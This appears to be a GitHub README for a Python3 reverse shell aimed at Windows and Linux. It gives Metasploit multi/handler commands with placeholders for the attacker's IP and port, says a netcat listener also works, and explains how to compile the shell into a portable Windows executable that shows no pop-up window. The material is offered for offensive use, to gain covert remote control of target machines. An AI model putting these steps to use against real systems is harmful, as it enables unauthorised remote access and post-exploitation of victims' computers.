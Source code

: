 
# Python Reverse Shell for Windows / Linux
Reverse Shell written in Python3 - Modified version of TacticalCheerio/Python-Windows-Reverse-Shell

You can take advantage of post exploitation modules in Metasploit by using:

    msf> use exploit/multi/handler 
    msf> set PAYLOAD [linux/shell_reverse_tcp | windows/shell_reverse_tcp]
    msf> set LHOST <Attacker IP>      
    msf> set LPORT <Attacker Port>    
    msf> set ExitOnSession false
    msf> run -j

Minor edits made by me for formatting and preferences.

To use on Windows, create an executable using pyinstaller

    python -m pip install pyinstaller
    pyinstaller -wF ./reverse_shell.py

Useful PyInstaller Options:
> -w removes pop up windows
>
> -F outputs a portable .exe file in the ./dist/ folder

This also works with a netcat listener

